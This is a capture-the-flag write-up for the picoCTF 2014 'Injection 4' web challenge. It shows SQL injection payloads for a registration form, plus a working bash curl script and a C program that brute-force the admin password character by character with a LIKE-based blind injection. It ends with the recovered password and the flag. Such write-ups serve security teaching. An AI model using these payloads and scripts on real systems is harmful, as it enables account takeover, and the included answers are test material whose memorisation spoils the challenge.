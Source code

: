 Zach: Injection 4 (150 pts)
    
So by just quick inspection of the login script, it’s really clear that everything is SQL escaped, and so there are no real hacks available. Now with the registration feature, my first thought was a hack I’ve done before based on registering a user with the username admin followed by spaces past the varchar max length in the database, with a trailing character. This will be added to the database as just admin, with the password I instituted at registration. It will collide with the original admin on the database. However, if the user doesn’t exist, it echo’s that registration is disabled, so this is impossible.

So since there is no way to hack into the login script, it looks like we need to try and brute force the password. This can be done easily with the registration script because it’s not escaped. We can inject a query that instead of checking for a username, it will check for a password for the user admin, and the page will respond with “Someone has already registered {username}” if it finds one or more matches. This would look like the following in the username field:
    ```
    admin’ AND password=’{PASSWORD_GUESS}’ OR ‘1’=’2
    ```

Of course, brute forcing this would take ages, but thankfully, SQL has a LIKE operator. This looks like the following:
    ```
    admin’ AND password LIKE ‘{FRONT_OF_PASS}%” OR ‘1’=’2
    ```

In this operator, the % sign matches any number of characters in it’s place. This allows us to brute force every possible first character until we find the right one. Then every second character, and etc. until we have the whole password to login with. I used curl in a shell script to do this. Then I called the shell script with a C code that did the iteration of different password. Both codes are included below:
    

test_pass.sh:
```
#!/bin/bash
if [[ "$(curl -s -F "username=admin' AND password LIKE '$1%' OR '1'='2" http://web2014.picoctf.com/injection4/register.php)" =~ "Someone" ]]; then
	exit 1;
else
	exit 0;
fi
```

get_pass.c:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char* format = "./test_pass.sh '%s'";

int main() {
        char pass[1024], cmd[1080], *p = pass;
        int complete;
        while(1) {
                complete = 0;
                *p = 32;
                *(p+1) = '\0';
                do {
                        if(*p == '%' || *p == '\'') ++(*p);
                        sprintf(cmd, format, pass);
                        //printf("%s, %s, %d, %d\n", cmd, pass, *p, pass[p-pass]);
                        if( system(cmd) ) {
                                complete = 1;
                                break;
                        }

                } while (++(*p) > 0);
                if(complete) {
                        printf("\"%s\"\n", pass);
                } else {
                        printf("Finished.\n");
                        *p = '\0';
                        break;
                }
                ++p;
        }
        return 0;
}
```

The shellcode checks the output of curl to be approximately equal (=~) to “Someone”. If this is true, it exits with 1, else with 0. The c code creates space for the password and the cmd to execute on the shell, with enough room for 1023 characters (one extra byte for the null terminating character). Then, the pointer in the password char[] is iterated through all possible characters until one matches, and then goes to the next character. After no more characters will match, the password has been found and the code terminates. Because it takes some time, the code outputs it’s progress every time a new character is determined. The characters ‘\’’ and ‘%’ are excluded because % has special meaning for SQL (discussed above), and the single quote would terminate the string.

The password obtained from this script: `YOULLNEVERGUESSTHISPASSWORD`

If you login to the site as admin with that password, you receive:
    `whereof_one_cannot_speak_thereof_one_must_be_silent`
